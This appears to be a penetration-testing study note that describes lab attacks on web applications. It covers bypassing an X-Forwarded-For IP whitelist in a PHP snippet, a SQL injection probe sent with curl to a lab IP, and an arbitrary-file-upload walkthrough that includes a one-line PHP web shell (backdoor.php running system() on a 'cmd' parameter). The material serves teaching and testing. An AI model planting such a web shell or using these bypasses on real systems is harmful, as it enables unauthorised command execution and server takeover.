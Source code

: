 ```php
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
    header("HTTP/1.1 401 Unauthorized");
}
else
{
  print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
```

The issue here is that the code compares the **HTTP_X_FORWARDED_FOR** header to the possible whitelist values, and if the HTTP_X_FORWARDED_FOR is not set or is set without one of the IPs from the array, it'll give a 401. A possible bypass could be setting the X-Forwarded-For header and the value to one of the IPs from the array.

In addition, you can find that a parameter like "id" in the example above, could be injectable with a SQLi. you can use **SQLMap** to obtain some informations about the vulnerability. This can be the resulting curl:

```bash
curl http://10.129.153.22:3003\?id\=\1+or+position=736373
```

<br>
<br>
<br>
<br>

# Arbitrary file upload

Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.

Suppose we are assessing an application residing in ```http://<TARGET IP>:3001```.

When we browse the application, an anonymous file uploading functionality sticks out.

Let us create the below file (save it as backdoor.php) and try to upload it via the available functionality.

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

The above allows us to append the parameter cmd to our request (to backdoor.php), which will be executed using system(). This is if we can determine backdoor.php's location, if backdoor.php will be rendered successfully and if no PHP function restrictions exist.

- backdoor.php was successfully uploaded via a POST request to /api/upload/. An API seems to be handling the file uploading functionality of the application;
- The content type has been automatically set to application/x-php, which means there is no protection in place. The content type would probably be set to application/octet-stream or text/plain if there was one;
- Uploading a file with a .php extension is also allowed. If there was a limitation on the extensions, we could try extensions such as .jpg.php, .PHP, etc;
- Using something like file_get_contents() to identify php code being uploaded seems not in place either;
- We also receive the location where our file is stored, ```http://<TARGET IP>:3001/uploads/backdoor.php```.

